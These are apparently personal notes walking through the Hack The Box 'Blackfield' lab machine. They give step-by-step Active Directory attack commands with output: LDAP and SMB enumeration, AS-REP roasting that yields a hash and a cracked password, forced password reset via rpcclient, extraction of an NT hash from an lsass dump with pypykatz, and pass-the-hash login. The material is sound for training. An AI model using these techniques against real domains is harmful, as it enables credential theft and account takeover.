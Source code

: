 ### From LDAP to DNS then back to LDAP
##### Get domains
```bash
root@kali# ldapsearch -h 10.129.1.243 -x -s base namingcontexts

namingcontexts: DC=BLACKFIELD,DC=local
namingcontexts: CN=Configuration,DC=BLACKFIELD,DC=local
namingcontexts: CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=local
namingcontexts: DC=DomainDnsZones,DC=BLACKFIELD,DC=local
namingcontexts: DC=ForestDnsZones,DC=BLACKFIELD,DC=local
```

##### Dig domain
```bash
dig @10.129.1.243 ForestDnsZones.BLACKFIELD.local
dig @10.129.1.243 DomainDnsZones.BLACKFIELD.local
```

##### LDAP again
```bash
ldapsearch -h $IP -x -b "DC=BLACKFIELD,DC=local" | tee ldap-anonymous # anonymous login
```

### SMB
https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#smb---tcp-445

```bash
crackmapexec smb $IP

smbclient -N -L \\\\$IP

smbmap -u null -p "" -H $IP -P 445
```

##### mount and list users as that's the obvious hint
There is an opportunity to create a list of usernames
```bash
sudo mount -t cifs //$IP/profiles$ /mnt
```

use -1 in ls to print only the directories one per line:
```bash
ls -1 /mnt/ > users
```

### UF_DONT_REQUIRE_PREAUTH set to true
https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#as-rep-roast

```bash
for user in $(cat users); do ./GetNPUsers.py -no-pass -dc-ip $IP blackfield.local/$user ; done
for user in $(cat users); do ./GetNPUsers.py -no-pass -dc-ip $IP blackfield.local/$user | grep krb5asrep; done

# Or use usersfile instead of for loop

./GetNPUsers.py blackfield.local/ -no-pass -usersfile users -dc-ip $IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'

$krb5asrep$23$support@BLACKFIELD.LOCAL:8a1e7ddb1873d327b07f1ab17984ec19$2aefece1a101fca7f6ba50b9566d0820ff6c0aa69bc4fbb1c0fb522a47c9bcfeca825a52f0f80f8e9e24adee03954637d8e13a99147f7d0f5a7704e8fe9859393c279cd0f6df14014a61ef3c0193191656bc4da3f7a8f91aaed8d0b65918d7db56fbff01a46233584f1f438ce82d79e78be99644673b097ed69ae997aeab3c3d724d506cc7d2887ea3a71a35d9fb383ed2479262ca2819026dcdf01ffa013911e83ffacaad656916804a74e228b5992bff6d1b2e1959633cb7db64eee5c5f33a15bc7fe5c
```

### hashcat as usual
`hashcat --example-hashes | grep krb5asrep -B5`

There is chance that the hash is damaged. Just capture it and try again

#00^BlackKnight

### Try to login with evil-winrm and psexec.py
```bash
evil-winrm -i 10.129.1.243 -u support -p "#00^BlackKnight"

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
```

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py BLACKFIELD.LOCAL/support:'#00^BlackKnight'@BLACKFIELD.LOCAL

[*] Requesting shares on BLACKFIELD.LOCAL.....
[-] share 'ADMIN$' are not writable.
```

### Access Check should be done before trying login
##### winrm
```bash
crackmapexec winrm $IP -u support -p '#00^BlackKnight'
```

can't use winrm as expected. 

##### ldap
```bash
ldapsearch -h $IP -D cn=support,dc=blackfield,dc=local -w '#00^BlackKnight' -x -b 'dc=blackfield,dc=local'
```
can't do either `ldap_bind: Invalid credentials (49)`

##### smb is usually the one

```bash
crackmapexec smb $IP -u support -p '#00^BlackKnight'

smbmap -H $IP -u support -p '#00^BlackKnight'
```

### Kerberoasting since 88 is opening
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip $IP BLACKFIELD.LOCAL/support:'#00^BlackKnight' -save -outputfile GetUserSPNs.out
```

No entries found!

### Try rpcclient since none of them worked
```bash
rpcclient -U support $IP

enumdomusers
```
##### Reset AD passwords
https://room362.com/post/2017/reset-ad-user-password-with-linux/

https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#forcechangepassword

```bash
rpcclient $> setuserinfo2 Administrator 23 'qwer1234' 
result: NT_STATUS_ACCESS_DENIED
result was NT_STATUS_ACCESS_DENIED
rpcclient $> setuserinfo2 audit2020 23 'qwer1234' 
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION
rpcclient $> setuserinfo2 audit2020 23 'qwer1234!' 
rpcclient $> c
```

### Go into a new smb share
```bash
smbmap -H $IP -u audit2020 -p 'qwer1234!'

smbclient //$IP/forensic -U=audit2020%qwer1234!

smbget -R smb://$IP/forensic/memory_analysis/lsass.zip -U=audit2020%qwer1234!
```

### Dump plaintext credentials and hashes from lsass.exe
As anti-virus started catching on to that, attackers pivoted. A well known technique is to use procdump.exe from Sysinternals (and signed by Microsoft) to dump lsass.exe and then exfil that memory dump and extract hashes from it in the attacker controlled space.

```bash
unzip lsass.zip

file lsass.DMP

ls -lh lsass.DMP 

pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
```

### User flag
```bash
evil-winrm -i $IP -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```